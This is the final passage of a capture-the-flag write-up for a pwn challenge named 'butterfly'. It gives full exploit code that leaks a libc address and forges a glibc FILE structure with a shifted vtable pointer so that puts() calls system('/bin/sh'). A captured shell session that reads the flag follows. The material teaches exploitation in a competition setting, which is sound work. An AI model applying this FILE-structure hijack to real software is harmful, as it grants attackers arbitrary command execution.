 The calculation of `fake_vtable_addr` in the blog is specific to `fwrite()`. To get `puts()` to call the right function, we'll increment the offset to the `fake_vtable` a little bit:
```python
io_str_overflow_ptr_addr = context.libc.symbols['_IO_file_jumps'] + 0xd8
# Now this is correct!
fake_vtable_addr = io_str_overflow_ptr_addr - 7*8
```
With that, we're done!

```python
[+] Opening connection to pwn.darkarmy.xyz on port 32770: Done
[*] 0x7f7c6ffcb000
[*] Switching to interactive mode
$ ls
butterfly
flag
run.sh
ynetd
$ cat flag
darkCTF{https://www.youtube.com/watch?v=L2C8rVO2lAg}
$
```
Full code, in case you're lazy to read:
## Code
```python
from pwnscripts import *
context.binary = 'distribute/challenge_bin/butterfly'
context.libc_database = 'libc-database'
context.libc = 'distribute/libc/libc.so.6'
LIBC_OFF=0x50
vdso_magic = next(context.libc.search(b"__vdso_getcpu"))

p = remote('pwn.darkarmy.xyz', 32770)
p.sendafter(': ', 'a'*LIBC_OFF)
context.libc.address = extract_first_bytes(p.recvline()[LIBC_OFF:],6)-vdso_magic
log.info(hex(context.libc.address))
rip = context.libc.symbols['system']
rdi = context.libc.symbols['str_bin_sh']
assert rdi % 2 == 0     # Necessary for exploit
io_str_overflow_ptr_addr = context.libc.symbols['_IO_file_jumps'] + 0xd8
fake_vtable_addr = io_str_overflow_ptr_addr - 7*8
_lock = context.libc.address + 0x3ecf00 # Magic number: aligned-pointer to an r/w buffer containing the value b'\0'*8
fp = FileStructure(_lock)       # This is `bin.symbols['fake_file'] + 0x80` on the blog
fp._IO_buf_end = fp._IO_write_ptr = (rdi-100)//2
fp._IO_write_base = 0
fp.vtable = fake_vtable_addr
payload = bytes(fp)+pack(rip)
p.sendlineafter(': ', '-6')     # 0x202050-0x202020
p.sendafter(': ', payload)
p.interactive()
```
## Footnotes
1. I say "might", because I never bothered to try.
   `note[]` lies on the end of the binary's PIE memory page. This means that (useful) addresses higher up than `note` are going to lie on a different memory page, making it impossible to index higher addresses without having *two* memory address leaks. 
2. Basically, `apt install python3 gdb`, `RUN` the GEF installation script, and make sure to google for "How to run gdb inside of docker" to get past the ptrace error.
3. A beginner might try poking around at the `malloc(0x200)` pointers to see if writing anything there can do something interesting. Considering that no heap functions are used after the immediate two `malloc()`s (`_exit()` in particular isn't even going to bother `free()`ing the used addresses), I ignored this possibility.